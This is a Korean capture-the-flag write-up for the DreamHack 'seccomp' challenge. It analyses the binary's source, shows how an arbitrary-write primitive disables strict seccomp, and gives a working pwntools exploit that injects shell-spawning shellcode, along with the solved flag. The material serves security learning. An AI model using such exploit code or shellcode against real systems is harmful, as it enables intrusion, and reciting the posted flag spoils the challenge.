 # [DreamHack] seccomp

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 이 문제는 서버에서 작동하고 있는 서비스(seccomp)의 바이너리와 소스 코드가 주어집니다.
> 프로그램의 취약점을 찾고 익스플로잇해 셸을 획득한 후, “flag” 파일을 읽으세요.
> “flag” 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.
>
> Release: [seccomp.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8549760/seccomp.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/160810652-e179b565-2089-4c61-a1c7-cb13064b6530.png)

## Analysis

### syscall_filter()

```c
int mode = SECCOMP_MODE_STRICT;

int syscall_filter() {
    #define syscall_nr (offsetof(struct seccomp_data, nr))
    #define arch_nr (offsetof(struct seccomp_data, arch))
    
    /* architecture x86_64 */
    #define REG_SYSCALL REG_RAX
    #define ARCH_NR AUDIT_ARCH_X86_64
    struct sock_filter filter[] = {
        /* Validate architecture. */
        BPF_STMT(BPF_LD+BPF_W+BPF_ABS, arch_nr),
        BPF_JUMP(BPF_JMP+BPF_JEQ+BPF_K, ARCH_NR, 1, 0),
        BPF_STMT(BPF_RET+BPF_K, SECCOMP_RET_KILL),
        /* Get system call number. */
        BPF_STMT(BPF_LD+BPF_W+BPF_ABS, syscall_nr),
        };
    
    struct sock_fprog prog = {
    .len = (unsigned short)(sizeof(filter)/sizeof(filter[0])),
    .filter = filter,
        };
    if ( prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0) == -1 ) {
        perror("prctl(PR_SET_NO_NEW_PRIVS)\n");
        return -1;
        }
    
    if ( prctl(PR_SET_SECCOMP, mode, &prog) == -1 ) {
        perror("Seccomp filter error\n");
        return -1;
        }
    return 0;
}
```

Seccomp를 설정한다. Strict mode이므로 `read`, `write`, `exit`, `sigreturn` 시스템 콜만 호출 가능하다.

### main()

```c
    shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);

    while(1) {
        printf("1. Read shellcode\n");
        printf("2. Execute shellcode\n");
        printf("3. Write address\n");
        printf("> ");

        scanf("%d", &idx);

        switch(idx) {
            case 1:
                if(cnt != 0) {
                    exit(0);
                }

                syscall_filter();
                printf("shellcode: ");
                read(0, shellcode, 1024);
                cnt++;
                break;
            case 2:
                sc = (void *)shellcode;
                sc();
                break;
            case 3:
                printf("addr: ");
                scanf("%ld", &addr);
                printf("value: ");
                scanf("%ld", addr);
                break;
            default:
                break;
        }
    }
```

셸코드를 입력하고, 실행할 수 있다. 셸코드를 입력받을 때 `syscall_filter()`를 호출하여 seccomp를 설정한다.

`3. Write address`로 원하는 주소에 원하는 값을 쓸 수 있다. `syscall_filter()`에서 seccomp를 설정할 때 `prctl(PR_SET_SECCOMP, mode, &prog)`를 호출하는데, 이때 `mode`는 전역 변수로 `SECCOMP_MODE_STRICT`로 초기화되어 있다.

```c
/* Valid values for seccomp.mode and prctl(PR_SET_SECCOMP, <mode>) */
#define SECCOMP_MODE_DISABLED	0 /* seccomp is not in use. */
#define SECCOMP_MODE_STRICT	1 /* uses hard-coded filter. */
#define SECCOMP_MODE_FILTER	2 /* uses user-supplied filter. */
```

`seccomp.h`에 위와 같이 seccomp mode의 종류가 매크로로 정의되어 있다. 문제에서 제공되는 AAW를 이용하여 전역 변수 `mode`의 값을 0으로 덮어쓰면 `SECCOMP_MODE_DISABLED`가 되어, `syscall_filter()`가 호출되어도 seccomp가 설정되지 않아서 자유롭게 셸코드를 실행시킬 수 있다.

## Exploit

```python
from pwn import *
context(arch='amd64')

REMOTE = True

if not REMOTE:
    r = process('./release/seccomp')
else:
    r = remote('host1.dreamhack.games', 18083)

sla = r.sendlineafter
sa = r.sendafter

mode = 0x602090  # global var <mode>


# overwrite mode with 0(SECCOMP_MODE_DISABLED)

sla('> ', '3')
sla('addr: ', str(mode))
sla('value: ', str(0))


# execute shellcode

shellcode = asm(shellcraft.sh())

sla('> ', '1')
sa('shellcode: ', shellcode)

sla('> ', '2')


r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 18083: Done
[*] Switching to interactive mode
$ cat flag
DH{22b3695a64092efd8845efe7eda784a4}
```
